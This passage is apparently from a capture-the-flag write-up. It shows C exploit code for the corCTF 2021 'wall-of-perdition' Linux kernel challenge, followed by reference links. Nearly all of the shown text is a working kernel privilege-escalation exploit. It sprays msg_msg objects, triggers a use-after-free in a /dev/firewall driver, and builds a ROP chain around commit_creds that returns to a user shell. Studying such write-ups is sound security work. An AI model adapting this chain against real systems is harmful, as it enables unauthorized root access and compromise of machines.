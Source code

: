 ```python
    rop[idx++]  = 0xffffffff81c33060    - NO_ASLR_BASE + base;
    // commit_creds
    // pop rax ret
    rop[idx++]  = 0xffffffff81001431 - NO_ASLR_BASE + base;
    rop[idx++]  = addr_kstrtab_commit_creds  - NO_ASLR_BASE + base;
    // 0xffffffff8100f1ed: mov eax, eax; ret;
    rop[idx++]  = 0xffffffff8100f1ed - NO_ASLR_BASE + base;
    // pop rbx ; ret
    rop[idx++]  = 0xffffffff810043d0 - NO_ASLR_BASE + base;
    rop[idx++]  = addr_kstrtab_commit_creds - NO_ASLR_BASE + base;
    // 0xffffffff8100fd91: add eax, ebx; pop rbx; pop rbp; ret;
    rop[idx++]  = 0xffffffff8100fd91 - NO_ASLR_BASE + base;
    rop[idx++]  = 0;
    rop[idx++]  = 0;
    // 0xffffffff81010f3b: 0xffffffff81010f3b: pop rsi; pop rbp; ret;
    rop[idx++]  = 0xffffffff81010f3b - NO_ASLR_BASE + base;
    rop[idx++]  = code_addr+idx*8+0x18+0x30;
    rop[idx++]  = 0;
    // 0xffffffff8100f518: mov [rsi], eax; ret;
    rop[idx++]  = 0xffffffff8100f518- NO_ASLR_BASE + base;
    // This is the data be modified
    rop[idx++]  = 0xffffffffdeadbeef- NO_ASLR_BASE + base;
    rop[idx++]  = 0xffffffff81200df0+22 - NO_ASLR_BASE + base;
    rop[idx++]  = 0 ; 
    rop[idx++]  = 0 ;
    rop[idx++]  = shell;
    rop[idx++]  = user_cs;
    rop[idx++]  = user_rflags;
    rop[idx++]  = user_sp;
    rop[idx++]  = user_ss;
    assert(idx<0x200-0x6);
    msgSpray(0xfd0,0x20,rop);
}
void ControlRIP(u64 base,u64 heap){
    tainRegs(base,heap);
    write(pipe_fd[0][0],"n",1);
    write(pipe_fd[0][1],"1",1);
}
int main(){
    libxInit();
    int mq[0x10];
    for(int i = 0 ; i<0x10;i++)
        mq[i] = msgGet();
    fd = open("/dev/firewall",2);

    msgSpray(0x10,0x2000/0x40,dp('1',0x10));

    add(0,0,"255.255.255.255","255.255.255.255");
    duplicate(0,0);
    del(0,0);
    add(0,0,"255.255.255.255","255.255.255.255");
    duplicate(0,0);
    del(0,0);
    msgSend(mq[0],0x10,dp('0',0x10));
    del(1,1);
    size_t a[] = {1,0x800,0x2000,0,0,0xdead,0xbeef};
    char * fake  = flatn(a,7);
    char * payload = calloc(0x1,0x1000);
    memcpy(payload+0xfd0,fake,0x38);
    msgSend(mq[1],0xfd0+0x38,payload);
    add(0,0,"255.255.255.255","255.255.255.255");
    duplicate(0,0); // > 1,1
    del(1,1);
```

[1]: https://github.com/Crusaders-of-Rust/corCTF-2021-public-challenge-archive/tree/main/pwn/wall-of-perdition
[2]: https://syst3mfailure.io/wall-of-perdition/
[3]: https://dl.acm.org/doi/abs/10.1145/3576915.3623220
[4]: https://github.com/sefcom/RetSpill/blob/main/igni/chain_builder.py#L97
[6]: https://elixir.bootlin.com/linux/latest/source/include/linux/msg.h#L9
[7]: https://elixir.bootlin.com/linux/latest/source/ipc/msgutil.c#L37
[8]: https://n132.github.io/2024/02/09/IPS.html
